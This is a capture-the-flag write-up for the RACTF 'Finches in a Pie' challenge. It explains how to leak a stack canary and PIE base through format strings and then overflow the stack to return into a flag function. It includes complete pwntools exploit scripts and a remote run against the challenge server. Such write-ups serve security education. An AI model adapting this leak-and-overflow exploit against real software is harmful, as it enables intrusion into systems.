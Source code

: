 # Finches in a Pie

This challenge is very similiar to Finches in a Stack, so this one is more like a continuation of that writeup, so I'd advise reading that one first before reading this one. Here's the link:
[Finches in a Stack](https://github.com/crypt0n1te/write-ups/blob/master/ractf-2020/rev-pwn/finches_in_a_stack.md)

Protections:
First, let's check the protections that this binary has using checksec:
```
sasha@kali:~/RACTF$ pwn checksec fiap
[*] '/home/sasha/RACTF/fiap'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So here's what we have to deal with:

* Canary: This is a protection that places a random value before a return pointer, so that if you overwrite it with an invalid value, the program crashes

* NX: This prevents us from executing our own shellcode by marking critical areas as non-executable

* ASLR: This will randomize addresses such as libc ones, such as system. This won't affect us however

And a new one:

* PIE: This essentially randomizes the addresses of the functions and gadgets, making returning to functions harder

Since this binary is practically the same as `fias`, I won't go over the reversing again

## Overview

Our exploit is going to have four parts again:

* Padding, to reach the canary
* Canary, to overwrite canary, so that the program doesn't crash
* More padding, to reach the return pointer
* Return Pointer, where we point back into 'flag'

We already have the other 4 sorted, however our new challenge is to find the return pointer, due to PIE randomizing it

## Leaking PIE

Fortunately, we can also leak a PIE address with format strings, this time it's `%12$p`. However, there are some calculations that need to be made to get the base address
Lets load up gdb and have a look at the functions:
```
0x00001209  flag
```
So now we have the offset of `flag`. Let's run it with a breakpoint at say_hi (as that's where input is taken):
```
gdb-peda$ b say_hi
Breakpoint 1 at 0x1287
gdb-peda$ r
```
Let's skip to the printf which we use to leak, entering `%12$p` in the `gets`:
```
gdb-peda$ 
0x56559000!
```
Now we need to find out what to do with this address to get the base address. Let's take a function, say the `flag` function, see where it is now after being randomized:
```
gdb-peda$ p flag
$1 = {<text variable, no debug info>} 0x56556209 <flag>
```
And using our offset from before
> 0x00001209
We will take the offset away from the flag address, to find the base:
```
gdb-peda$ p/x 0x56556209 - 0x1209
$2 = 0x56555000
```
So that's our base address, now we do:
```
gdb-peda$ p/x 0x56559000 - 0x56555000
$3 = 0x4000
```
To find the offset of the leaked PIE address. Now, using this information, we can always find the return pointer we need

## Local exploit

Now we can create our local exploit using python3 + pwntools. We send the two format strings in the same line, separated by a `-`, so we can leak the canary and PIE at one time:
```python
from pwn import *

e = ELF("fiap")
io = e.process()

for i in range(0,10):
	io.recvline()

io.sendline("-%11$p-%12$p-")		# Leak both canary and PIE
recieved = str(io.recvline()).split("-")
canary = int(recieved[1],16)
pie = int(recieved[2],16) - 0x4000	# Gets base
log.info("Canary: " + str(hex(canary)))
log.info("PIE: " + str(hex(pie)))
io.recvline()

flag = pie + 0x1209	# Base + Flag offset

payload = b"a" * 25		# Pads upto canary
payload += p32(canary)		# Overwrites canary
payload += b'bbbbccccdddd' 	# Pads upto return address
payload += p32(flag)		# Overwites return addr with addr of flag function

io.sendline(payload)
print(io.recvline().decode())
io.close()
```

## Transferring to remote

Transferring to remote is very simple once again:
```python
from pwn import *
import sys

args = sys.argv[1].split(":")
ip = args[0]
port = args[1]

io = remote(ip,port)

for i in range(0,10):
	io.recvline()

io.sendline("-%11$p-%12$p-")		# %11$lx leaks canary, %12$p leaks pie
recieved = str(io.recvline()).split("-")
canary = int(recieved[1],16)
pie = int(recieved[2],16) - 0x4000	# Leaked pie take 0x4000 results in binary base

log.info("Canary: " + str(hex(canary)))
log.info("PIE: " + str(hex(pie)))
io.recvline()

flag = pie + 0x1209

payload = b"a" * 25		# Pads upto canary
payload += p32(canary)		# Overwrites canary
payload += b'bbbbccccdddd' 	# Pads upto return address
payload += p32(flag)		# Overwites return addr with addr of flag function

io.sendline(payload)
print(io.recvline().decode())
io.close()
```
Let's now run it:
```
sasha@kali:~/RACTF$ python3 fiapremote.py 95.216.233.106:49276
[+] Opening connection to 95.216.233.106 on port 49276: Done
[*] Canary: 0x3132f200
[*] PIE: 0x565d6000
ractf{B4k1ng_4_p1E!}

[*] Closed connection to 95.216.233.106 port 49276
sasha@kali:~/RACTF$ 
```
Challenge done!
